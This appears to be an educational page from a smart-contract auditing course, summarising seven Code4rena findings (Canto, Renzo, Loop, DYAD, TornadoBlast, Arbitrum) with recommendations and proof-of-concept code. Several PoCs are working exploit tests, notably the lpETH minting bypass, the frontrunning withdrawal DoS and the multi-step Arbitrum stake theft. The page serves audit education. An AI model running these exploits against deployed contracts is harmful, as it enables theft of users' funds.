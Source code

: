 # ETAAcademy-Adudit: 3. Access

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>03. Access</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>dos</th>
          <td>access</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1. [High] Dual transaction nature of composed message transfer allows anyone to steal user funds

### Restricts the lzCompose(…) method

- Summary: Sending OFTs via `lzCompose(…)` is permissionless, allowing anyone to invoke it. Adversaries can monitor for incoming OFTs and use them before legitimate processing, stealing user funds. If `lzCompose(…)` fails, adversaries can exploit retries before users, misusing the OFTs.

- Impact & Recommendation: An immediate but temporary fix restricts the lzCompose(…) method to trusted or whitelisted executors. Alternatively, a design change is proposed, involving directly implementing `lzReceive(…)` to eliminate the need for a composed message altogether.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-canto#h-02-dual-transaction-nature-of-composed-message-transfer-allows-anyone-to-steal-user-funds) & [Report](https://code4rena.com/reports/2024-03-canto)

  <details><summary>POC</summary>

  ```solidity
    it("lzCompose: successful deposit and send on canto", async () => {
        // update whitelist
        await ASDUSDC.updateWhitelist(USDCOFT.target, true);
        // call lzCompose with valid payload
        await expect(
            ASDRouter.lzCompose(
                USDCOFT.target,
                guid,
                generatedComposeMsg(
                    refundAddress,
                    amountUSDCSent,
                    generatedRouterPayload(cantoLzEndpoint.id, refundAddress, TESTASD.target, TESTASD.target, "0", refundAddress, "0")
                ),
                executorAddress,
                "0x"
            )
        )
            .to.emit(ASDRouter, "ASDSent")
            .withArgs(guid, refundAddress, TESTASD.target, amountUSDCSent, cantoLzEndpoint.id, false);
        // expect ASD to be sent to canto
        expect(await TESTASD.balanceOf(refundAddress)).to.equal(amountUSDCSent);
    });

  ```

  </details>

## 2. [Medium] ASDRouter didn’t call ASDUSDC.approve() to to grant permission for crocSwapAddress to spend their ASDUSDC

### Lack of allowance

- Summary: The function `ASDRouter#lzCompose()` fails because the necessary allowance is not set for `crocSwapAddres**s**` to spend ASDUSDC tokens. This prevents the successful swap of ASDUSDC for NOTE, resulting in a failed execution of `_swapOFTForNote()` and refunding all ASDUSDC to the designated receiver.

- Impact & Recommendation: Set `allowance` to the maximum value.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-canto#m-02-asdrouter-didnt-call-asdusdcapprove-to-to-grant-permission-for-crocswapaddress-to-spend-their-asdusdc) & [Report](https://code4rena.com/reports/2024-03-canto)

  <details><summary>POC</summary>

  ```solidity
    const { expect } = require("chai");
    const { ethers } = require("hardhat");
    const hre = require("hardhat");
    describe("Dex", function () {
        const dexAddress = "0x9290C893ce949FE13EF3355660d07dE0FB793618";
        const usdcAddress = "0x80b5a32E4F032B2a058b4F29EC95EEfEEB87aDcd";
        const cNoteAddress = "0xEe602429Ef7eCe0a13e4FfE8dBC16e101049504C";
        const usdcWhaleAddress = "0xfAc5EBD2b1b830806189FCcD0255DC9B174decbc";
        let dex;
        let usdc;
        let cNote;
        this.beforeEach(async () => {
            dex  = await hre.ethers.getContractAt("ICrocSwapDex", dexAddress);
            usdc = await hre.ethers.getContractAt("IERC20", usdcAddress);
            cNote = await hre.ethers.getContractAt("CErc20Interface", cNoteAddress);
        });
        it("User can only call DEX.swap() for cNote after call USDC.approve(dex)", async () => {
            await hre.network.provider.request({
                method: "hardhat_impersonateAccount",
                params: [usdcWhaleAddress],
            });
            whale = await ethers.getSigner(usdcWhaleAddress);
            let usdcBalanceBeforeSwap = await usdc.balanceOf(usdcWhaleAddress);
            await usdc.connect(whale).approve(dexAddress, 0);
            expect(await usdc.allowance(usdcWhaleAddress,dexAddress)).to.be.equal(0);
            //@audit-info swap failed due to zero allowance
            expect(dex.connect(whale).swap(
                usdcAddress,
                cNoteAddress,
                36000,
                true,
                true,
                2000000,
                0,
                0,
                0,
                0
            )).to.be.reverted;
            //@audit-info user set the allowance for dex to 2000000
            await usdc.connect(whale).approve(dexAddress, 2000000);
            expect(await usdc.allowance(usdcWhaleAddress,dexAddress)).to.be.equal(2000000);
            swapTx = await dex.connect(whale).swap(
                usdcAddress,
                cNoteAddress,
                36000,
                true,
                true,
                2000000,
                0,
                ethers.parseEther("10000000000"),
                0,
                0
            );
            await swapTx.wait();
            let usdcBalanceAfterSwap = await usdc.balanceOf(usdcWhaleAddress);
            let usedUSDC = usdcBalanceBeforeSwap - usdcBalanceAfterSwap;
            //@audit-info swap succeeded and 2000000 of USDC was tranferred from user
            expect(usedUSDC).to.be.equal(2000000);
        });
    });

  ```

  </details>

## 3.[High] DOS of completeQueuedWithdrawal when ERC20 buffer is filled

### Restricted access

- Summary: The OperatorDelegator::completeQueuedWithdrawal function in the code tries to fill the ERC20 withdrawal buffer but fails because it calls depositQueue::fillERC20withdrawBuffer, which is restricted to be accessed only by the RestakeManager contract. This restriction causes the function call to revert, leading to a Denial of Service (DoS) that prevents the completion of withdrawals and the retrieval of funds from EigenLayer (EL), resulting in a potential loss of funds for the protocol and its users.

- Impact & Recommendation: The simplest solution is to remove the onlyRestakeManager modifier from the depositQueue::fillERC20withdrawBuffer function, allowing anyone to call it.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-04-renzo#h-07-dos-of-completequeuedwithdrawal-when-erc20-buffer-is-filled) & [Report](https://code4rena.com/reports/2024-04-renzo)

  <details><summary>POC</summary>

  ```solidity
    function completeQueuedWithdrawal(
        IDelegationManager.Withdrawal calldata withdrawal,
        IERC20[] calldata tokens,
        uint256 middlewareTimesIndex
    ) external nonReentrant onlyNativeEthRestakeAdmin {
        uint256 gasBefore = gasleft();
        if (tokens.length != withdrawal.strategies.length) revert MismatchedArrayLengths();
        // Complete the queued withdrawal from EigenLayer with receiveAsToken set to true
        delegationManager.completeQueuedWithdrawal(withdrawal, tokens, middlewareTimesIndex, true);
        IWithdrawQueue withdrawQueue = restakeManager.depositQueue().withdrawQueue();
        for (uint256 i; i < tokens.length; ) {
            if (address(tokens[i]) == address(0)) revert InvalidZeroInput();
            // Deduct queued shares for tracking TVL
            queuedShares[address(tokens[i])] -= withdrawal.shares[i];
            // Check if the token is not Native ETH
            if (address(tokens[i]) != IS_NATIVE) {
                // Check the withdrawal buffer and fill if below buffer target
                uint256 bufferToFill = withdrawQueue.getBufferDeficit(address(tokens[i]));
                // Get the balance of this contract
                uint256 balanceOfToken = tokens[i].balanceOf(address(this));
                if (bufferToFill > 0) {
                    bufferToFill = (balanceOfToken <= bufferToFill) ? balanceOfToken : bufferToFill;
                    // Update the amount to send to the operator Delegator
                    balanceOfToken -= bufferToFill;
                    // Safely approve for depositQueue
                    tokens[i].safeApprove(address(restakeManager.depositQueue()), bufferToFill);
                    // Fill the Withdraw Buffer via depositQueue
                    restakeManager.depositQueue().fillERC20withdrawBuffer(
                        address(tokens[i]),
                        bufferToFill
                    );
                }
                // Deposit remaining tokens back to EigenLayer
                if (balanceOfToken > 0) {
                    _deposit(tokens[i], balanceOfToken);
                }
            }
            unchecked {
                ++i;
            }
        }
        // Emit the Withdraw Completed event with withdrawalRoot
        emit WithdrawCompleted(
            delegationManager.calculateWithdrawalRoot(withdrawal),
            withdrawal.strategies,
            withdrawal.shares
        );
        // Record the current spent gas
        _recordGas(gasBefore);
    }

  ```

  </details>

## 4.[High] Availability of deposit invariant can be bypassed

### ETH deposits influence lpETH minting

- Summary: The issue in the PrelaunchPoints.sol contract arises during the claiming of lpETH, where non-ETH/WETH LRT tokens are swapped to ETH using \_fillQuote(), and this ETH is subsequently used to mint lpETH. The vulnerability occurs because any ETH transferred directly to the contract before calling claim() is also included in the minting calculation. This allows users to bypass the intended lock-up period and artificially inflate their lpETH holdings beyond their initial LRT stake.

- Impact & Recommendation: To mitigate this, it is crucial to modify the contract so that only ETH obtained from LRT swaps is used for minting lpETH, and to prevent any additional ETH deposits from influencing the lpETH minting process.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-05-loop#h-01-availability-of-deposit-invariant-can-be-bypassed) & [Report](https://code4rena.com/reports/2024-05-loop)

  <details><summary>POC</summary>

  ```solidity
      function testClaimLRT() public {
        // user only needs to lock 1 wei LRT, then he could cliam any amount he want
        uint256 lockAmount = 1;
        lrt.approve(address(prelaunchPoints), lockAmount);
        prelaunchPoints.lock(address(lrt), lockAmount, referral);

        prelaunchPoints.setLoopAddresses(address(lpETH), address(lpETHVault));
        vm.warp(prelaunchPoints.loopActivation() + prelaunchPoints.TIMELOCK() + 1);
        prelaunchPoints.convertAllETH();

        vm.warp(prelaunchPoints.startClaimDate() + 1);
        bytes4 y =  bytes4(0x415565b0);
        bytes memory da = abi.encodeWithSelector(y, address(lrt), (ETH), 0);
        // user deposit eth to this and call claim to get lp
        address(prelaunchPoints).call{value: 1 ether}("");
        prelaunchPoints.claim(address(lrt), 0, PrelaunchPoints.Exchange.TransformERC20, da);

        console.log("lp get : ",lpETH.balanceOf(address(this)));
    }

  ```

  </details>

## 5.[High] Attacker can frontrun user’s withdrawals to make them revert without costs

### Valid nft owner

- Summary: The `withdraw` method can be indefinitely blocked by repeatedly depositing 1 WEI with others' IDs just before each block, preventing withdrawals and creating a denial-of-service attack at minimal cost.

- Impact & Recommendation: Mitigations include preventing deposits to unowned dNFT tokens, allowing deposits only through licensed vaults to impose a real cost on attackers, and updating `idToBlockOfLastDeposit` only for vaults licensed by `vaultLicenser` or `keroseneManager`.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-04-dyad#h-04-attacker-can-frontrun-users-withdrawals-to-make-them-revert-without-costs) & [Report](https://code4rena.com/reports/2024-04-dyad)

  <details><summary>POC</summary>

  ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity =0.8.17;
    import "forge-std/console.sol";
    import "forge-std/Test.sol";
    import {DeployV2, Contracts} from "../../script/deploy/Deploy.V2.s.sol";
    import {Licenser}            from "../../src/core/Licenser.sol";
    import {Parameters}          from "../../src/params/Parameters.sol";
    import {ERC20}               from "@solmate/src/tokens/ERC20.sol";
    import {Vault}               from "../../src/core/Vault.sol";
    import {IAggregatorV3}       from "../../src/interfaces/IAggregatorV3.sol";
    import {IVaultManager}       from "../../src/interfaces/IVaultManager.sol";
    contract FakeERC20 is ERC20 {
        constructor(string memory name, string memory symbol) ERC20(name, symbol, 18) {}
        function mint(address to, uint256 amount) external {
            _mint(to, amount);
        }
    }
    contract FakeVaultTest is Test, Parameters {
        Contracts contracts;
        address   attacker;
        FakeERC20 fakeERC20;
        Vault     fakeVault;
        function setUp() public {
            contracts = new DeployV2().run();
            // Add Vault Manager V2 to the main licenser used by DYAD token, it will allow Vault Manager V2 minting, burning DYAD.
            vm.prank(MAINNET_OWNER);
            Licenser(MAINNET_VAULT_MANAGER_LICENSER).add(address(contracts.vaultManager));
            attacker =  makeAddr('attacker');
            fakeERC20 = new FakeERC20('Fake', 'FAKE');
            fakeVault = new Vault(
                contracts.vaultManager,
                ERC20        (fakeERC20),
                IAggregatorV3(address(0x0))
            );
            fakeERC20.mint(attacker, type(uint256).max);
        }
        function testPoC_attackerCanFrontRunUserWithdrawalsToPreventThemFromWithdrawing() public {
            // Make a new address for alice, and mint some ether.
            address alice = makeAddr('alice');
            vm.deal(alice, 2 ether);
            // Misc addresses (WETH and WETH Vault).
            address weth =     address(contracts.ethVault.asset());
            address ethVault = address(contracts.ethVault);
            // Alice start interaction
            vm.startPrank(alice);
            // Mint new dNft token for alice
            uint dNftId = contracts.vaultManager.dNft().mintNft{value: 1 ether}(alice);
            // Add WETH vault to the newly created dNft
            contracts.vaultManager.add(dNftId, ethVault);
            // Deposit Ether to WETH contract to mint weth tokens
            (bool success, ) = weth.call{value: 1 ether}(abi.encodeWithSignature("deposit()"));
            require(success);
            // Deposit Weth to vault through Vault Manager
            contracts.ethVault.asset().approve(address(contracts.vaultManager), 1 ether);
            contracts.vaultManager.deposit(dNftId, ethVault, 1 ether);
            vm.stopPrank();
            vm.roll(block.number + 1);
            // attacker approve vault manager to spend his fake erc20
            vm.startPrank(attacker);
            fakeVault.asset().approve(address(contracts.vaultManager), type(uint256).max);
            // whenever alice try to withdraw, attacker front-runs alice and make him unable to withdraw at current block
            // by depositing to alice's dNft a fake token with fake vault
            contracts.vaultManager.deposit(dNftId, address(fakeVault), 1 ether);
            vm.stopPrank();
            // alice try to withdraw but the call reverted with DepositedInSameBlock error
            // indicate that the attacker success to prevent the withdrawal
            vm.expectRevert(IVaultManager.DepositedInSameBlock.selector);
            vm.prank(alice);
            contracts.vaultManager.withdraw(dNftId, ethVault, 1 ether, alice);
        }
    }

  ```

  </details>

## 6.[Medium] VestingMaster: Banning account causes future rewards in RevenueSharingVault to get lost and tokens are stuck

### Ban accounts

- Summary: In the VestingMaster and IndividualVestingVault contracts, the owner of VestingMaster can ban accounts from calling IndividualVestingVault.claim(). This prevents the banned accounts from withdrawing their shares, causing these shares to remain indefinitely in the vault. Consequently, any future revenue generated by these shares is lost forever.

- Impact & recommendation: When an account is banned, its Vault shares are now redeemed for TRNDO tokens and sent to the owner of VestingMaster, ensuring no TRNDO tokens get stuck and future revenue is preserved.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-06-tornadoblast-proleague#m-01-vestingmaster-banning-account-causes-future-rewards-in-revenuesharingvault-to-get-lost-and-tokens-are-stuck) & [Report](https://code4rena.com/reports/2024-06-tornadoblast-proleague)

<details><summary>POC</summary>

```solidity
    --- a/apps/contracts/src/Vesting/IndividualVestingVault.sol
    +++ b/apps/contracts/src/Vesting/IndividualVestingVault.sol
    @@ -42,6 +42,10 @@ contract IndividualVestingVault is VestingUtils, Initializable {
            tokenizedVault.withdraw(amountToClaim, msg.sender, address(this));
        }
    +    function banAccount() external onlyVestingMaster() {
    +        tokenizedVault.redeem(tokenizedVault.balanceOf(address(this)), msg.sender, address(this));
    +    }
    +
        function claimableTokenAmount() public view returns (uint256) {
            if (vaultIsBanned()) {
                return 0;
    --- a/apps/contracts/src/Vesting/VestingMaster.sol
    +++ b/apps/contracts/src/Vesting/VestingMaster.sol
    @@ -36,9 +36,14 @@ contract VestingMaster is IVestingMaster, VestingUtils, Ownable, MinimalProxyFac
            }
        }
    +    function withdrawTornadoTokens(address recipient) external onlyOwner {
    +        vestedToken.transfer(recipient, vestedToken.balanceOf(address(this)));
    +    }
    +
        function banAccount(address account) external onlyOwner {
            require(!claimingIsProhibitedFor[account]);
            claimingIsProhibitedFor[account] = true;
    +        vaultOf[account].banAccount();
        }

```

</details>

## 7.[High] Adversary can make honest parties unable to retrieve their assertion stakes if the required amount is decreased

### Validators steal funds

- Summary: The vulnerability in RollupUserLogic.sol allows adversary validators who have lost a challenge to steal funds from honest validators by exploiting the setBaseStake function. When the baseStake is decreased, the adversary can manipulate the system by creating new assertions with a reduced stake, ultimately allowing them to withdraw more funds than they initially staked.

- Impact & Recommendation: This flaw permits adversaries to exploit the system and steal from honest validators, necessitating a fix to prevent adversary validators from reclaiming their funds through the current tracking system.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-05-arbitrum-foundation#h-01-adversary-can-make-honest-parties-unable-to-retrieve-their-assertion-stakes-if-the-required-amount-is-decreased) & [Report](https://code4rena.com/reports/2024-05-arbitrum-foundation)

<details><summary>POC</summary>

```solidity
    function testSuccessSetBaseStake() public {
        vm.prank(upgradeExecutorAddr);
        adminRollup.setBaseStake(8);
    }
    function testPOC_SuccessConfirmEdgeByTime() public returns (SuccessCreateChallengeData memory) {
        SuccessCreateChallengeData memory data = testSuccessCreateChallenge();

        vm.roll(userRollup.getAssertion(genesisHash).firstChildBlock + CONFIRM_PERIOD_BLOCKS + 1);
        vm.warp(block.timestamp + CONFIRM_PERIOD_BLOCKS * 15);
        userRollup.challengeManager().confirmEdgeByTime(
            data.e1Id,
            AssertionStateData(
                data.afterState1,
                genesisHash,
                userRollup.bridge().sequencerInboxAccs(0)
            )
        );
        bytes32 inboxAcc = userRollup.bridge().sequencerInboxAccs(0);
        vm.roll(block.number + userRollup.challengeGracePeriodBlocks());
        vm.prank(validator1);
        userRollup.confirmAssertion(
            data.assertionHash,
            genesisHash,
            data.afterState1,
            data.e1Id,
            ConfigData({
                wasmModuleRoot: WASM_MODULE_ROOT,
                requiredStake: BASE_STAKE,
                challengeManager: address(challengeManager),
                confirmPeriodBlocks: CONFIRM_PERIOD_BLOCKS,
                nextInboxPosition: firstState.globalState.u64Vals[0]
            }),
            inboxAcc
        );
        return data;
    }

    function readStakerMap(
        address addr
    )
        public
        returns (
            uint256 amountStaked,
            bytes32 latestStakedAssertion,
            uint64 index,
            bool isStaked,
            address withdrawalAddress
        )
    {
        return (userRollup._stakerMap(addr));
    }

    function testRun_Me_POC() public {
        /*****************
         *****Step -1-*****
         *****************/
        SuccessCreateChallengeData memory data = testPOC_SuccessConfirmEdgeByTime();
        /*@audit-info
        - `validator1` is the honest validator
        - `validator2` is the adversary validator (aka: Bob)
        - `validator3` is the adversary validator (aka: Alice)
        at this point:
        Bob lose a challenge and his 10 wei (which is the value of the constant `BASE_STAKE`)*/

        /*****************
         *****Step -2-*****
         *****************/
        //Set-up
        uint256 prevInboxCount = data.newInboxCount;
        bytes32 prevHash = userRollup.latestConfirmed();
        AssertionState memory beforeState;
        beforeState = data.afterState1;

        AssertionState memory afterState;
        afterState.machineStatus = MachineStatus.FINISHED;
        afterState.globalState.u64Vals[0] = uint64(prevInboxCount);

        bytes32 inboxAcc = userRollup.bridge().sequencerInboxAccs(1); // 1 because we moved the position within message
        bytes32 expectedAssertionHash = RollupLib.assertionHash({
            parentAssertionHash: prevHash,
            afterState: afterState,
            inboxAcc: inboxAcc
        });

        bytes32 prevInboxAcc = userRollup.bridge().sequencerInboxAccs(0);

        //The honest validator creats the next assertion
        vm.prank(validator1);
        userRollup.stakeOnNewAssertion({
            assertion: AssertionInputs({
                beforeStateData: BeforeStateData({
                    sequencerBatchAcc: prevInboxAcc,
                    prevPrevAssertionHash: genesisHash,
                    configData: ConfigData({
                        wasmModuleRoot: WASM_MODULE_ROOT,
                        requiredStake: BASE_STAKE,
                        challengeManager: address(challengeManager),
                        confirmPeriodBlocks: CONFIRM_PERIOD_BLOCKS,
                        nextInboxPosition: afterState.globalState.u64Vals[0]
                    })
                }),
                beforeState: beforeState,
                afterState: afterState
            }),
            expectedAssertionHash: expectedAssertionHash
        });

        /*****************
         *****Step -3-*****
         *****************/
        //The admin call setBaseStake() to decrease the `baseStake` state variable from 10 wei to 8 wei
        testSuccessSetBaseStake();

        /*****************
         *****Step -4-*****
         *****************/
        //Set-up
        beforeState = data.afterState2;
        afterState.machineStatus = MachineStatus.FINISHED;
        afterState.globalState.u64Vals[0] = uint64(prevInboxCount);

        // `Alice` the adversary validator creats the next assertion
        vm.prank(validator3);
        userRollup.newStakeOnNewAssertion({
            tokenAmount: BASE_STAKE,
            assertion: AssertionInputs({
                beforeStateData: BeforeStateData({
                    sequencerBatchAcc: prevInboxAcc,
                    prevPrevAssertionHash: genesisHash,
                    configData: ConfigData({
                        wasmModuleRoot: WASM_MODULE_ROOT,
                        requiredStake: BASE_STAKE,
                        challengeManager: address(challengeManager),
                        confirmPeriodBlocks: CONFIRM_PERIOD_BLOCKS,
                        nextInboxPosition: afterState.globalState.u64Vals[0]
                    })
                }),
                beforeState: beforeState,
                afterState: afterState
            }),
            expectedAssertionHash: bytes32(0),
            withdrawalAddress: validator3Withdrawal
        });

        //nb:You can check. the adversary validator `Bob` is able to withdraw his 10 wei
        /*vm.prank(validator2);
        userRollup.returnOldDeposit();*/

        /*****************
         *****Step -5-*****
         *****************/
        //`Bob` trigger `reduceDeposit()` to reduce his staked amount only to 8 wei
        vm.prank(validator2);
        userRollup.reduceDeposit(8);

        /*****************
         *****Step -6-*****
         *****************/
        //`Bob` invoke stakeOnNewAssertion() to create the first child of Alice assertion
        //Note: `Bob` will lock only 8 wei this time

        //Set-up
        (, bytes32 latestStakedAssertion, , , ) = readStakerMap(validator2);
        uint64 newInboxCount = uint64(_createNewBatch());

        beforeState = afterState;
        prevInboxAcc = userRollup.bridge().sequencerInboxAccs(1);

        AssertionState memory afterStatePOC;
        afterStatePOC.machineStatus = MachineStatus.FINISHED;
        afterStatePOC.globalState.bytes32Vals[0] = keccak256(
            abi.encodePacked(FIRST_ASSERTION_BLOCKHASH)
        ); // blockhash
        afterStatePOC.globalState.bytes32Vals[1] = keccak256(
            abi.encodePacked(FIRST_ASSERTION_SENDROOT)
        ); // sendroot
        afterStatePOC.globalState.u64Vals[0] = newInboxCount; // inbox count
        afterStatePOC.globalState.u64Vals[1] = 0; // pos in msg

        vm.roll(block.number + 75);

        vm.prank(validator2);

        userRollup.stakeOnNewAssertion({
            assertion: AssertionInputs({
                beforeStateData: BeforeStateData({
                    sequencerBatchAcc: prevInboxAcc,
                    prevPrevAssertionHash: latestStakedAssertion,
                    configData: ConfigData({
                        wasmModuleRoot: WASM_MODULE_ROOT,
                        requiredStake: 8,
                        challengeManager: address(challengeManager),
                        confirmPeriodBlocks: CONFIRM_PERIOD_BLOCKS,
                        nextInboxPosition: afterStatePOC.globalState.u64Vals[0]
                    })
                }),
                beforeState: beforeState,
                afterState: afterStatePOC
            }),
            expectedAssertionHash: bytes32(0)
        });

        /*****************
         *****Step -7-*****
         *****************/
        //Alice withdraw 10 wei
        vm.prank(validator3);
        userRollup.returnOldDeposit();

        vm.prank(validator3Withdrawal);
        uint amountWithdrawn = userRollup.withdrawStakerFunds();
        assertEq(amountWithdrawn, 10);

        //Bob withdraw 2 wei
        vm.prank(validator2Withdrawal);
        amountWithdrawn = userRollup.withdrawStakerFunds();
        assertEq(amountWithdrawn, 2);
    }


```

</details>
